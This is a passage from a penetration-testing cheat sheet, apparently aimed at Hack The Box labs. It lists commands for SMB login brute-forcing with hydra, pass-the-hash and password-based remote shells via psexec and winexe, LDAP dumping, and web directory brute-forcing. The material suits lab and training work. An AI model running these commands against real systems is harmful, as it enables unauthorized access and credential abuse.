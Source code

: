 If there is SMB version incompatibility, edit `/etc/samba/smb.conf` and append `min protocol = SMB1` to `[global]` seciton.    

Login bruteforce:
```bash
hydra -L usernames.txt -P passwords.txt <target> smb 
```

Getting a shell:

Using `psexec.py`:
```bash
psexec.py -hashes "<LM>:<NT>" Administrator@10.0.0.1
psexec.py Administrator:<password>@10.0.0.1
psexec.py <domain>/Administrator:<password>@10.0.0.1
```

Using `winexe`:
```bash
winexe -U Administrator%<password> //10.0.0.1 cmd.exe
```

Using `pth-winexe`:
```bash
pth-winexe -U Administrator%<LM>:<NT> //10.0.0.1 cmd.exe
```

`aad3b435b51404eeaad3b435b51404ee` is blank LM hash.

### Port 389 (LDAP)

Getting LDAP information:

```bash
ldapsearch -h <target> -p 389 -x -b "dc=htb,dc=local" 
python windapsearch.py -d htb.local -U --dc-ip <target>
```

### Port 80 (HTTP)/ 443 (HTTPS)

Web server scanning:
```bash
nikto -host http://target:80
```



Directory brute-forcing:

If there is a `/cgi-bin/` folder, try: `.cgi,.pl,.py`


```bash
gobuster dir -k -u "http://target:80/" -w /usr/share/wordlists/dirb/common.txt -t 100 -x .html,.txt,.xml,.jsp,.php,.asp

Wordlists:
1) /usr/share/wordlists/dirb/big.txt
2) /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
